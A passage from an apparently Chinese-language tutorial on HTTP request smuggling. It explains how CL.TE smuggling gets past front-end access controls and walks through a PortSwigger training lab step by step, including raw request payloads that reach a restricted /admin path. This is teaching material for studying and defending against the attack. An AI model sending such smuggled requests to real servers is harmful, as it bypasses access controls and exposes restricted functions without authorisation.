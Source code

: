 ```bash
```

[![](assets/1704418275-df673a7d4fefaa9591ab390afcfd69b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154907-92e77618-aa0c-1.png)  
第二个包请求后会给一个 404 响应  
[![](assets/1704418275-e79a74cdce1762d80b739edc5ed42e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154925-9d76c49e-aa0c-1.png)  
随后成功解题：

[![](assets/1704418275-02e6faa0a55ec2ea81ed9ef1028af1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154941-a6fa355a-aa0c-1.png)

## 走私绕过

### 前端限制

假设应用程序使用前端服务器来实现访问控制限制，仅当用户被授权访问所请求的 URL 时才转发请求，然后后端服务器接受每个请求，而不做进一步的检查，在这种情况下可以利用 HTTP 请求走私漏洞通过请求走私访问受限制的 URL 从而绕过访问控制，假如允许当前用户访问/home，但不允许访问/admin，他们可以使用以下请求走私攻击绕过这一限制：

```bash
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对/home 的，因此请求被转发到后端服务器，但是后端服务器看到一个对/home 的请求和一个对/admin 的请求，它 (像往常一样) 假设请求已经通过了前端控件，因此授予对受限 URL 的访问权限  
下面我们介绍一下具体的绕过方式：

#### CL.TE Bypass

靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  
绕过演示：  
Step 1：直接访问上面的链接，点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-a55b5cfeab63a556f2fef1b239339bff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155020-be7c67d4-aa0c-1.png)  
Step 2：访问/admin 路径会发现被拦截  
[![](assets/1704418275-aa156cf57d291e1851220044490d0a33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155035-c71da0ec-aa0c-1.png)  
Step 3：随后我们构造如下请求数据包并发送两次尝试请求走私

```bash
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
